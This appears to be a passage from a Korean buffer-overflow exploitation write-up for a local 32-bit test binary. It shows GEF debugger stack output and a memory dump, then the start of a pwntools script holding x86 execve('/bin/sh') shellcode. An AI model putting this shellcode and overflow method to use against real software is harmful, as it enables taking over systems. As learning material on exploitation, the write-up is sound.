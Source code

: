 ```sh
0xffffcea8│+0x0010: "aaaaaaaaaaaaaa\n"
0xffffceac│+0x0014: "aaaaaaaaaa\n"
0xffffceb0│+0x0018: "aaaaaa\n"
0xffffceb4│+0x001c: "aa\n"
───────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x80491cd <main+71>        push   eax
    0x80491ce <main+72>        push   0x0
    0x80491d0 <main+74>        call   0x8049040 <read@plt>
 →  0x80491d5 <main+79>        add    esp, 0xc
    0x80491d8 <main+82>        mov    eax, 0x0
    0x80491dd <main+87>        leave  
    0x80491de <main+88>        ret    
    0x80491df                  add    BYTE PTR [ebx-0x7d], dl
    0x80491e2 <_fini+2>        in     al, dx
───────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "test", stopped 0x80491d5 in main (), reason: SINGLE STEP
─────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x80491d5 → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```

```sh
gef➤  x/80x 0xffffcea4
0xffffcea4:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffceb4:	0x000a6161	0x01000000	0x0000000b	0xf7fc4540
0xffffcec4:	0x00000000	0xf7c184be	0xf7e26054	0xf7fbe4a0
0xffffced4:	0xf7fd6f20	0xf7c184be	0xf7fbe4a0	0xffffcf20
0xffffcee4:	0xf7fbe66c	0xf7fbeb10	0x00000001	0x00000001
0xffffcef4:	0x00000000	0xf7e26000	0xf7d1ea8b	0xffffd1a1
0xffffcf04:	0x00000070	0xf7ffd020	0xf7c21519	0x00000001
0xffffcf14:	0xffffcfc4	0xffffcfcc	0xffffcf30	0xf7e26000
0xffffcf24:	0x0804909d	0x00000001	0xffffcfc4	0xf7e26000
0xffffcf34:	0xffffcfc4	0xf7ffcb80	0xf7ffd020	0x6aa18649
0xffffcf44:	0x11160c59	0x00000000	0x00000000	0x00000000
0xffffcf54:	0xf7ffcb80	0xf7ffd020	0xa75cbb00	0xf7ffda40
0xffffcf64:	0xf7c214a6	0xf7e26000	0xf7c215f3	0x00000000
0xffffcf74:	0x0804bf04	0xffffcfcc	0xf7ffd020	0x00000000
0xffffcf84:	0xf7fd8f94	0xf7c2156d	0x0804bff4	0x00000001
0xffffcf94:	0x08049070	0x00000000	0x08049098	0x0804909d
0xffffcfa4:	0x00000001	0xffffcfc4	0x00000000	0x00000000
0xffffcfb4:	0xf7fcaaa0	0xffffcfbc	0xf7ffda40	0x00000001
0xffffcfc4:	0xffffd1a1	0x00000000	0xffffd1e2	0xffffd1f2
0xffffcfd4:	0xffffd260	0xffffd273	0xffffd287	0xffffd2b4
```

위의 정보들을 이용하여 쉘코드를 작성하면, 아래와 같음
```python
from pwn import *


shellcode=b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'

#p = gdb.debug('./test')

p = process('./test')
#context.log_level = 'debug'

origin=p.recv(10)[2:]
```